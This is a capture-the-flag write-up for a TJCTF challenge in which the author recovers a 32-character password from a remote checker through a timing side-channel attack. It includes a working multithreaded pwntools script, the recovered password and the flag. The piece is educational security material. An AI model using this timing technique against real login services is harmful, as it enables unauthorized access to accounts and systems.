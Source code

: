 # Python Reversing (40 points/ 36 solves)
## Problem statement:
>I hear there's a flag hiding behind this new service, Speedy Security(TM). Can you find it?
>nc problem1.tjctf.org 8003

<br>

## My opinion:
The idea of this problem was pretty simple, perform a timing attack on a password checker. Easier said than done if you ask me. 
<br><br>

## The challenge:
Connecting through netcat on the server we get the following message:
```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
1
Authorization failed!
```

<br>

Ok so practically, we have a program that looks like this, or somewhat like this:

```python
def check(input,checks):
	password='thisisthepassword'
	for x in zip(input,password):
		for i in range(checks):
			if(x[0]!=x[1]):
				return 'Authorization failed!'
	return 'flag'
```

<br>

I know it's a wild guess, but after some trial and error that's what I came up with. <br>
Now, it's pretty simple how a [timing attack](https://en.wikipedia.org/wiki/Timing_attack) would work. <br> 
Try for a big number of checks (`10**6` worked for me) for each character of the password all possible characters and choose the one that took the most time to compute. Easy right? Not really, the server had some latency and sometimes it would freeze for a couple seconds. So you couldn't really guess the password in one go, also multithreading saved my life here. One more thing that was essential was to take the average of a few queries (`5` in this case was enough) in order to avoid the server's random latency.

## Getting the password:
I used the following code to get the password, but I had to restart it a few times with the last correct part of the password. I also asked the author for the length of the password, it was 32.<br>
Also, after geting the first 5 characters of the password I took another wild guess assuming the password would be made of alphanumerical characters.<br>

```python
from threading import Thread
from pwn import *
from time import time,sleep
CHECKS='1000000'
steps=5
PASS=''
S=[0 for i in range(256)]
pr='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890++'
pr=[ord(x) for x in pr]
def g(p):
	S[p]=0
	print chr(p)
	L=[Thread(target=f,args=(p,)) for i in range(steps)]
	for x in L:
		x.start()
	for x in L:
		x.join()
	S[p]/=steps
	
def f(p):
	s=remote('problem1.tjctf.org','8003')
	s.recvuntil('password?')
	s.sendline(CHECKS)
	s.recvuntil(':')
	x=time()
	s.sendline(PASS+chr(p)+'\x00'*(499-len(PASS)))
	s.recvuntil('failed!')
	y=time()
	S[p]+=y-x
	s.close()

while(1):
	for i in range(0,len(pr),8):
		W=[Thread(target=g,args=(pr[j],)) for j in range(i,i+8)]
		for R in W:
			R.start()
		for R in W:
			R.join()
	l=S
	l=[(l[pr[i]],chr(pr[i])) for i in range(len(pr))]
	print list(reversed(sorted(l)))
	l=list(reversed(sorted(l)))
	p=0
	while(l[p][1]=='+'):
		p+=1
	PASS+=l[p][1]
	print PASS
```

<br>

so the password was: **TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK** <br>

```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK
Successfully authorized.
Welcome back, [[ EVAN ]]
Your flag is  tjctf{char_chks_c4n_b3_SLOW}
```

<br>

Flag: **tjctf{char_chks_c4n_b3_SLOW}**
